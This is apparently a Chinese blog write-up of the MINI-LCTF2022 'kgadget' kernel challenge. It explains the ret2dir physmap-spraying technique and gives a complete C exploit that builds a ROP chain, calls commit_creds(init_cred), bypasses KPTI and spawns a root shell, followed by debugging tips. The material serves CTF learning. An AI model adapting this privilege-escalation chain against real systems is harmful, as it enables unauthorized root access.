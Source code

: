 ```yaml
---
layout: post
tags: [kernel_pwn]
title: "MINI-LCTF2022 kgadget复现 ret2dir"
date: 2022-10-13
author: wsxk
comments: true
---
```


PS:请观看完[linux内核基础 二](https://wsxk.github.io/linux_kernel_basic_two/)后练习该题<br>

- [题目分析<br>](#题目分析)
- [exp<br>](#exp)
- [遇到的坑<br>](#遇到的坑)
  - [1.新的获取vmlinux工具<br>](#1新的获取vmlinux工具)
  - [2.ROPgadget搜索不全<br>](#2ropgadget搜索不全)
  - [3.gdb用法<br>](#3gdb用法)
  - [4. ret、retf、iretq、iret<br>](#4-retretfiretqiret)
  - [5.使用swapgs_restore_regs_and_return_to_usermode<br>](#5使用swapgs_restore_regs_and_return_to_usermode)
- [reference<br>](#reference)

## 题目分析<br>
只有`kgadget_ioctl`有用
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221013212902.png)<br>
但是它的代码其实不太对劲，需要我们自己看汇编<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221013212950.png)
主要思路是，cmd=114514后，可以通过param（v3 rdx）传入的指针获得函数地址，随后调用<br>
可以看到，它对pt_regs的其他值做了限制，导致你只能使用`r8 r9`两个寄存器<br>，
该题目利用了`direct mapping of all physical memory`的漏洞，通过mmap大量的用户态内存地址，写入同样的payload，（使用栈迁移`stack migration`技术将栈转移到rop_chain中）在物理内存映射区里选择一个地址，有很大的概率会命中rop_chain，最终完成利用。<br>
详细细节可以看[arttnba3的blog](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#%E4%BE%8B%E9%A2%98%EF%BC%9AMINI-LCTF2022-kgadget)


## exp<br>
```c
#include <sys/types.h>
#include <stdio.h>
#include <linux/userfaultfd.h>
#include <pthread.h>
#include <errno.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <poll.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/sem.h>
#include <semaphore.h>
#include <poll.h>

size_t commit_creds=0;
size_t prepare_kernel_cred =0;

size_t user_cs;
size_t user_ss;
size_t user_sp;
size_t user_rflags;
void save_status(void){
    __asm__(
        "mov user_cs,cs;"
        "mov user_ss,ss;"
        "mov user_sp,rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void get_root_shell(void){
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }
    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

//ret2usr
void get_root_privilege(){
    //printf("use ret2usr\n"); //don't use user func in kernel space!
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

int fd;
size_t page_size;
size_t * ptr_buff[15000];
size_t pop_rsp_ret = 0xffffffff811483d0;
size_t  add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret = 0xffffffff810737fe;
size_t ret = 0xffffffff8108c6f1;
size_t pop_rdi_ret = 0xffffffff8108c6f0;
size_t init_cred = 0xFFFFFFFF82A6B700; 
size_t swapgs_restore_regs_and_return_to_usermode = 0xFFFFFFFF81C00FCB;
size_t try_hit ; 

void make_rop_chain(size_t * addr){
    int i;
    for(i=0;i<(page_size/8-0x30);i++){
        addr[i]= add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret;
    }
    for (; i < (page_size / 8 - 0x10); i++)
        addr[i] = ret;
    addr[i++] = pop_rdi_ret;
    addr[i++] = init_cred;
    addr[i++] = commit_creds;
    addr[i++] = swapgs_restore_regs_and_return_to_usermode;
    addr[i++] =  *(size_t*) "wsxkwsxk";
    addr[i++] = *(size_t*) "wsxkwsxk";
    addr[i++] = get_root_shell;
    addr[i++] = user_cs;
    addr[i++] = user_rflags;
    addr[i++] = user_sp;
    addr[i++] = user_ss;
}

int main(){
    commit_creds = 0xFFFFFFFF810C92E0;
    save_status();
    fd = open("/dev/kgadget",O_RDWR);
    if(fd<0){
        printf("error in open device!\n");
    }
    page_size  = sysconf(_SC_PAGESIZE);
    printf("start test\n");
    ptr_buff[0]=mmap(NULL,page_size,PROT_WRITE|PROT_READ,MAP_PRIVATE | MAP_ANONYMOUS,-1,0);
    make_rop_chain(ptr_buff[0]);
    int i ;
    for(i=1;i<15000;i++){
        ptr_buff[i]=mmap(NULL,page_size,PROT_WRITE|PROT_READ,MAP_PRIVATE | MAP_ANONYMOUS,-1,0);
        if(!ptr_buff[i]){
            printf("mmap fail!\n");
            exit(-2);
        }
        memcpy(ptr_buff[i],ptr_buff[0],page_size);
        //make_rop_chain(ptr_buff[i]);
    }
    printf("start attack!\n");
    try_hit = 0xffff888000000000 + 0x7000000;//this addr comes from the layout of linux mem
    __asm__(
        "mov r15,0x11111111;"
        "mov r14,0x22222222;"
        "mov r13,0x33333333;"
        "mov r12,0x44444444;"
        "mov rbp,0x55555555;"
        "mov rbx,0x66666666;"
        "mov r11,0x77777777;"
        "mov r10,0x88888888;"
        "mov r9,pop_rsp_ret;"
        "mov r8,try_hit;"
        "mov rax,0x10;"
        "mov rcx,0xcccccccc;"
        "mov rdx,try_hit;"
        "mov rsi,0x1BF52;"
        "mov rdi,fd;"
        "syscall"
    );
    return 0;
}
```

## 遇到的坑<br>
### 1.新的获取vmlinux工具<br>
github搜索 vmlinux-to-elf<br>
可以安装该工具，能够成功提取出可供ida分析的内核文件<br>
```
vmlinux-to-elf input_file output_file
```
### 2.ROPgadget搜索不全<br>
github安装ropper<br>
```
ropper --clear-cache
ropper -f vmlinux --nocolor > gadget.txt
```
### 3.gdb用法<br>
```gdb
gdb vmlinux
add-symbol-file xxx.ko addr -s .data addr -s .bss addr (addr内核root权限通过 cat /sys/module/xxx.ko/sections/.text .data .bss获得)
target remote :1234
b entry_SYSCALL_64 #可以在执行syscall后进行调试
```
### 4. ret、retf、iretq、iret<br>
call 对于 ret（pop rip）<br>
call far 对于 retf（从栈顶弹出 EIP >> CS >> EFLAGS >> ESP >> SS）<br>
iret（4字节） iretq（8字节版本）<br>
### 5.使用swapgs_restore_regs_and_return_to_usermode<br>
因为开启了`kpti`保护

## reference<br>
[arttnba3的blog](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#%E4%BE%8B%E9%A2%98%EF%BC%9AMINI-LCTF2022-kgadget)<br>
[https://blog.csdn.net/qq_50332504/article/details/124145581](https://blog.csdn.net/qq_50332504/article/details/124145581)